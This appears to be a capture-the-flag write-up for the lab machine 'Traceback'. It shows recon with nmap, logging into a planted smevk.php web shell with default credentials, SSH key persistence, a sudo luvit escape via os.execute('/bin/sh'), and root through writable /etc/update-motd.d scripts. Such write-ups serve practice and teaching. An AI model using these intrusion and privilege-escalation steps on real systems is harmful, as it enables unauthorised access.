


# Traceback
## User
First I did a Nmap scan.
```
$ nmap 10.10.10.181 -A -sV
Nmap scan report for 10.10.10.181
Host is up (0.039s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
As there are no other interesting Ports I looked at the web server.


It seems like the website was already hacked by a user named Xh4H and a backdoor left on the server, so we just have to find it.
When I looked at the source of the site I found another hint in a comment:

`<!--Some of the best web shells that you might need ;)-->`

Because of this I decided to look up Xh4H's [Github](https://github.com/Xh4H) and found a [repository with web shells](https://github.com/Xh4H/Web-Shells).
It has the same text in it's [README.md](https://github.com/Xh4H/Web-Shells/blob/master/README.md) so it's definitely the right repo.
Then I tried to find all of the shells on the website and finally found `http://10.10.10.181/smevk.php` but it needs login credentials.



So I looked at the [source code of the shell](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php), found the standard login credentials and tried them out.
```
$UserName = "admin";
$auth_pass = "admin";
```



With this I now have a lot of access on the server. As I am now logged in as user `webadmin` I looked at the home directory of the user and found the `/home/webadmin/auth_keys` file so I just added my SSH Key to it and connected via SSH.
```
$ ssh webadmin@10.10.10.181
$ whoami
webadmin
```
There is also a note from the `sysadmin` in the home directory of the `webadmin`:
```
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
So I decided to check my sudo permissions:
```
$ sudo -l
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
This means we can use [luvit](https://luvit.io/) to run lua scripts as the user `sysadmin`. A very simple one liner is enough to escalate:
```
os.execute("/bin/sh")
```
After running this script I am now user `sysadmin` and we can read `/home/sysadmin/user.txt` for the user flag.
```
$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
$ whoami
sysadmin

$ python3 -c 'import pty; pty.spawn("/bin/bash")' // Upgrading Shell
```
## Root
After uploading [pspy](https://github.com/DominicBreuker/pspy) to the server and looking at the processes I found that the server runs scripts in `/etc/update-motd.d/` every time a user logs in:
```
CMD: UID=106  PID=1965   | sshd: [net]          
CMD: UID=0    PID=1967   | run-parts --lsbsysinit /etc/update-motd.d 
CMD: UID=0    PID=1966   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
CMD: UID=0    PID=1976   | /usr/bin/python3 -Es /usr/bin/lsb_release -cs 
CMD: UID=0    PID=1975   | /bin/sh /etc/update-motd.d/80-esm 
```
Luckily we can write to these, but there is also a cronjob that replaces all the files in the folder with files from a backup folder every 30 seconds:
```
CMD: UID=0    PID=2289   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```
But I can still use this for my attack. I just need to change one of the scripts and login within 30 seconds. So I just added `cat /root/root.txt` (or any other code you want the root to execute) to `/etc/update-motd.d/80-esm` and when I logged in again I got the root flag.

